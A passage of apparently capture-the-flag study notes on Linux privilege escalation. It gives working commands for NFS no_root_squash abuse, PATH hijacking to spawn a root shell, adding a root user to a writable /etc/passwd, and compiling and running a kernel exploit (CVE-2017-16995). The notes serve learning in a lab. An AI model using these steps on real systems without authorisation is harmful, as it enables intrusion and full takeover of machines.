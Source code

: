 ```bash
##Mountable shares
cat /etc/exports #On target
showmount -e <target IP> #On attacker
###Check for "no_root_squash" in the output of shares

mount -o rw <targetIP>:<share-location> <directory path we created>
#Now create a binary there
chmod +x <binary>
```

## PATH

[](https://github.com/saisathvik1/Linux-Privilege-Escalation-Notes#path)

- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

---

## Writable /etc/passwd file
```bash
>ls -l /etc/passwd
-rw-rw-rw- 1 root root 1370 Apr 12 16:44 /etc/passwd (#Write permission)
>openssl passwd ashok
DLYJ9ZDE6uY5o
>echo "ashok:DLYJ9ZDE6uY5o:0:0:root:/root:/bin/bash" >> /etc/passwd
>su ashok(#password is also ashok, switch directory to ashok get the flag)
```
## Exploiting Kernel Vulnerabilities

- After finding the version of Kernel simple google for that exploit or you can also use "Linux Exploit suggester"
- Once you find the exploit for the privesc, transfer the payload from your machine to target machine and execute and you're good to go.
  
```bash
cat /etc/issue (Ubuntu 16.04.4 LTS \n \l)
uname -a Linux ubuntu-privesc 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux arch (X86_64)
kali>searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
kali>cp /usr/share/exploitdb/exploits/linux/local/45010.c .
kali>head 45010.c -n 20
kali>mv 45010.c cve-2017-16995.c
kali>scp cve-2017-16995.c joe@192.168.123.216: (Transfer target machine)
>gcc cve-2017-16995.c -o cve-2017-16995
>file cve-2017-16995
>./cve-2017-16995(Got root shell)
```
## CVE - Linux